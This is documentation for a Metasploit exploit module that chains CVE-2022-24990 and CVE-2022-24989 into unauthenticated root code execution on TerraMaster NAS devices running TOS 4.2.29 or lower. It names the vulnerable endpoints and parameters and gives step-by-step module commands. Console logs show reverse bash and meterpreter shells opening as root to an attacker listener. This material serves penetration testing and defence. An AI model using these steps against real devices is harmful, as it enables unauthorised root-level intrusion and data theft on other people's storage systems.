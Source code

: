 ## Vulnerable Application

This module combines [CVE-2022-24990: Leaking sensitive information](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24990) and
[CVE-2022-24989: Authenticated remote code execution](https://www.redpacketsecurity.com/terramaster-tos-command-execution-cve-2022-24989/)
to achieve an unauthenticated RCE by exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as
admin password hash and mac address to achieve unauthenticated access and use the vulnerable endpoint `api.php?mobile/createRaid` with
`POST` parameters `raidtype` / `diskstring` to execute remote code as root on TerraMaster NAS devices.

All TerraMaster devices running TerraMaster Operating System (TOS) `4.2.29` or lower are vulnerable.

Installing a vulnerable test bed requires a TerraMaster NAS device that can run `TOS 4.x`
This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2022_24990`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options
No specific options.

## Scenarios

```
msf exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > info

       Name: TerraMaster TOS 4.2.29 or lower - Unauthenticated RCE chaining CVE-2022-24990 and CVE-2022-24989
     Module: exploit/linux/http/terramaster_unauth_rce_cve_2022_24990
   Platform: Unix, Linux
       Arch: cmd, php, x64, x86, aarch64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2022-03-07

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Octagon Networks
  0xf4n9x

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
  RPORT      8181             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Path to Terramaster Web console
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                      .0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits an unauthenticated remote code execution vulnerability in TerraMaster TOS 4.2.29
  and lower by chaining two existing vulnerabilities, CVE-2022-24990 "Leaking sensitive information"
  and CVE-2022-24989, "Authenticated remote code execution".
  Exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as admin password
  hash and mac address, the attacker can achieve unauthenticated access and use another vulnerable endpoint
  `api.php?mobile/createRaid` with POST parameters `raidtype` and `diskstring` to execute remote code as root
  on TerraMaster NAS devices.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2022-24990
  https://nvd.nist.gov/vuln/detail/CVE-2022-24989
  https://octagon.net/blog/2022/03/07/cve-2022-24990-terrmaster-tos-unauthenticated-remote-command-execution-via-php-object-instantiation/
  https://github.com/0xf4n9x/CVE-2022-24990
  https://attackerkb.com/topics/h8YKVKx21t/cve-2022-24990


View the full module info with the info -d command.
```

### TerraMaster F2-221 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 0
target => 0
msf exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.10.1:4444 -> 192.168.10.2:54556) at 2023-06-10 12:31:22 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Mon Jun 10 14:32:13 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-221 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 1
target => 1
msf exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (192.168.10.1:4444 -> 192.168.10.2:46174) at 2023-06-10 12:39:01 +0000
[*] Command Stager progress - 100.00% done (810/810 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
